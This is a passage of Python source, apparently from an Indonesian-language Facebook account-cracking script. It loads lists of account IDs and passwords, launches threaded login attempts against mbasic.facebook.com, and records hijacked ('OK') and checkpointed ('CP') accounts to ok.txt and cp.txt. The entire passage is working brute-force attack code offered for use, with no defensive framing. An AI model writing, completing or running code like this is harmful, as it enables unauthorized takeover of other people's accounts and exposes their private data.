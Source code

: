 						except:continue
				except Exception as e:
					print(("   %s"%e))
				print((k+"\n["+p+"•"+k+"]"+p+" Proses Crack Berjalan..."+k+"\n["+p+"•"+k+"]"+p+" Akun [OK] Disimpan Ke : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Akun [CP] Disimpan Ke : cp.txt\n"))
				ThreadPool(35).map(self.main,self.fl)
				os.remove(self.apk)
				exit()
				break
	def pwlist(self):
		self.pw=input(k+"["+p+"•"+k+"]"+p+" Password List : ").split(",")
		if len(self.pw) ==0:
			self.pwlist()
		else:
			for i in self.fl:
				i.update({"pw":self.pw})
			print((k+"\n["+p+"•"+k+"]"+p+"Proses Crack Sedang berjalan..."+k+"\n["+p+"•"+k+"]"+p+" Akun [OK] Disimpan Ke : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Akun [cp] Disimpan Ke : cp.txt\n"))
			ThreadPool(30).map(self.main,self.fl)
			os.remove(self.apk)
			exit()
	def main(self,fl):
		try:
			for i in fl.get("pw"):
				log=mbasic(fl.get("id"),
					i,"https://mbasic.facebook.com")
				if log.get("status")=="cp":
					print(("\r\x1b[0;33m[\x1b[0;37mCP\x1b[0;33m] %s • %s               "%(fl.get("id"),i)))
					self.cp.append("%s • %s"%(fl.get("id"),i))
					open("cp.txt","a+").write("%s • %s\n"%(fl.get("id"),i))
					break
				elif log.get("status")=="success":
					print(("\r\x1b[0;32m[\x1b[0;37mOK\x1b[0;32m] %s • %s               "%(fl.get("id"),i)))
					self.ada.append("%s • %s"%(fl.get("id"),i))
					open("ok.txt","a+").write("%s • %s\n"%(fl.get("id"),i))
					break
				else:continue
					
			self.ko+=1
			print("\r\x1b[0;33m[\x1b[0;37mCrack\x1b[0;33m]\x1b[0;37m %s/%s \x1b[0;32m[\x1b[0;37mOK : %s\x1b[0;32m] \x1b[0;33m[\x1b[0;37mCP : %s\x1b[0;33m]\x1b[0;37m"%(self.ko,len(self.fl),len(self.ada),len(self.cp)), end=' ');sys.stdout.flush()
		except:
			self.main(fl)

class crackttl:
	os.system("clear")
	banner()
	def __init__(self,isifile):
		self.ada=[]
		self.cp=[]
		self.ko=0
		print((k+"\n["+p+"•"+k+"]"+p+" Mode Crack Password Default/Manual [d/m]"))
		while True:
			f=input(k+"["+p+"•"+k+"]"+p+" Pilih : ")
			if f=="":continue
			elif f=="m":
				try:
					while True:
						try:
							self.apk=isifile
							self.fs=open(self.apk).read().splitlines()
							break
						except Exception as e: